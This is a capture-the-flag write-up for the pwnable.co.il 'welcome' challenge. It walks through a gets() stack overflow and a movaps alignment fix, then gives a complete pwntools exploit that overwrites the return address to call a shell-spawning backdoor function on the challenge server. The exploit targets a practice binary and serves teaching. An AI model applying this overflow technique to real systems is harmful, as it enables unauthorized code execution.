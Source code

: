 ```yaml
---
title: "pwnable.co.il - welcome"
classes: wide
header:
  teaser: /assets/images/ctf-writeups/pwnable.co.il/logo.png
ribbon: green
description: "simple ret2win challenge."
categories:
  - CTF Writeups
  - pwn
---
```


> Challenge description:
>
> Welcome to Pwnable.co.il!
> I hope you'll like this one...

### Protections:
<pre>    Arch:       amd64-64-little
    RELRO:      <font color="#FFBC51">Partial RELRO</font>
    Stack:      <font color="#FF3C3C">No canary found</font>
    NX:         <font color="#49FF6D">NX enabled</font>
    PIE:        <font color="#FF3C3C">No PIE (0x400000)</font>
    Stripped:   <font color="#FF3C3C">No</font>
</pre>

Let's start by extracting the ELF file from the zip and analyzing it with the Hex-Rays decompiler:
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char name[32]; // [rsp+0h] [rbp-20h] BYREF

  init_buffering(argc, argv, envp);
  puts("Welcome to pwnable.co.il!");
  puts("What is your name?");
  gets(name);
  printf("Thank you %s!\n", name);
  return 1;
}
```
We can easily see the vuln, the program uses the function `gets()`,
this gives us a buffer overflow (a.k.a BOF) primitive, so we can overwrite stack data beyond the `name` buffer, including the saved return address of the function itself.

According to to the protections, the program also lacks a `stack canary` and is not `PIE`, 
so overwriting the return address with gadgets or functions from the program and even building a ROP chain is a good approach.

### Functions symbols list:
[![static symbols](/assets/images/ctf-writeups/pwnable.co.il/welcome/symbols.png)](/assets/images/ctf-writeups/pwnable.co.il/welcome/symbols.png)

From the static symbol list we found an interesting function called `secret_backdoor`, so let’s examine it.


[![secret_backdoor function dump](/assets/images/ctf-writeups/pwnable.co.il/welcome/secret_backdoor_func.png)](/assets/images/ctf-writeups/pwnable.co.il/welcome/secret_backdoor_func.png)

This function is acttually a `win()` function, when called it invokes `system("/bin/sh")` which spawns a shell immediately. 
That makes calling `secret_backdoor` a straightforward path to code execution, so lets try it!


### Initial attempt
To overwrite the saved return address we fill the `name` buffer and the saved `RBP`, The offset from the start of `name` to the return address is 32 (the length of `name` buffer) + 8 (saved `RBP`) = 40 bytes.
So send 40 bytes of padding followed by the address of `secret_backdoor`.

## Example script
```py
from pwn import *

exe = ELF('./welcome')

p = process('./welcome')
payload = cyclic(40) # 32 (name) + 8 (saved RBP)
payload += p64(exe.sym.secret_backdoor)

p.sendline(payload)
p.interactive()
```

oooops... we got an `EOF while reading in interactive` error, which means the program exited (or crashed) before `p.interactive()` could hand us a shell... 
lets debug by replacing `process()` with `gdb.debug()` (or attach gdb to the process) so we can see whats happening when our payload runs.


[![secret_backdoor function dump](/assets/images/ctf-writeups/pwnable.co.il/welcome/movaps_segfault.png)](/assets/images/ctf-writeups/pwnable.co.il/welcome/movaps_segfault.png)

Now the problem is clear! The `do_system` path inside `system()` uses `movaps` opcode, which requires `16-byte aligned` memory operands. If the stack isn’t `16-byte aligned` when `system()` runs, that instruction faults and the program dies (hence the `EOF` / crash..).

The easiest fix here is to place a single `ret gadget` before calling `secret_backdoor()`, that `ret` realigns the stack to `16-bytes` so `system()` won’t fault.

## Exploit
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './welcome')

### config ###
host = args.HOST or 'pwnable.co.il'
port = int(args.PORT or 9000)

### defines ###
PADDING = 40

### gadgets ###
ret = 0x000000000040076c

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

def main():
    ### run ###
    io = start()

    ### payload ###
    payload = cyclic(PADDING) # reach the return address.
    payload += p64(ret) # realign the stack so movaps opcode won't fault.
    payload += p64(exe.sym.secret_backdoor) # call win function.
 
    io.sendline(payload)
    
    io.interactive()

if __name__ == "__main__":
    main()
```
